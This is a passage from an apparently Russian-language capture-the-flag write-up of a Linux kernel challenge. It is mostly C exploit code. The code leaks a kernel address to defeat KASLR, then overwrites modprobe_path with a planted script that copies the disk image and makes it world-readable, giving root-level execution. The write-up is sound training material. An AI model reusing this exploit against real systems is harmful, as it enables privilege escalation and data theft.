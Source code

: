 ```c
            content_addr = leak_name + i;
            break;
        }
    }
    printf("{+} buffer->content: 0x%8lx\n", content_addr);

    uint64_t cpu_entry_area = 0xfffffe0000000004;
    // read cpu_entry_area
    lseek(fd, (off_t)(cpu_entry_area - content_addr), SEEK_SET);
    uint64_t kaslr_leak = 0;
    read(fd, &kaslr_leak, 8);

    printf("{+} KASLR leak: 0x%08llx\n", kaslr_leak);
    uint64_t kaslr_base = kaslr_leak - 0x1008e00;
    printf("{+} KASLR base: 0x%08llx\n", kaslr_base);
    
    return kaslr_base;
};
```

Запустим обновлённый код:
![](/assets/IrisCTF-Checksumz/Pasted image 20250110015312.png)

С базой загрузки ядра мы можем переписать значение `modeprobe_path` и получить повышение привелегий. Про эту технику тоже можно прочитать в интернете. Например, вот [здесь](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/). Суть техники в двух словах — есть некоторая переменная где записан путь до исполняемого файла который вызовется с правами рута при попытке запуска приложения с определённым magic-значением в заголовке. 
Допишем наш эксплоит. Записывать память будем всё также через установку `buffer->pos` и запись в файл через `write`.
```c
...
	uint64_t KASLR = try_break_kaslr(fd);
    if (KASLR == -1 || ((KASLR & 0xfffff) != 0)) {
        puts("kaslr invalid!");
        return 0;
    }
    uint64_t modeprobe = KASLR + 0x1b3f100;

    int trig_fd = open("/tmp/kek", O_RDWR | O_CREAT);
    write(trig_fd, "#!/bin/sh\ncat /dev/vda>/f\nchmod 777 f\n", 39);
    close(trig_fd);
    system("chmod 777 /tmp/kek");

    printf("{+} modeprobe_path: 0x%08llx\n", modeprobe);
    lseek(fd, (off_t)(modeprobe - relative_addr), SEEK_SET);
    write(fd, "/tmp/kek", 12);
    
    trig_fd = open("pek", O_RDWR | O_CREAT);
    write(trig_fd, "\xde\xad\xbe\xef", 4);
    close(trig_fd);

    system("chmod 777 ./pek; ./pek;");
```
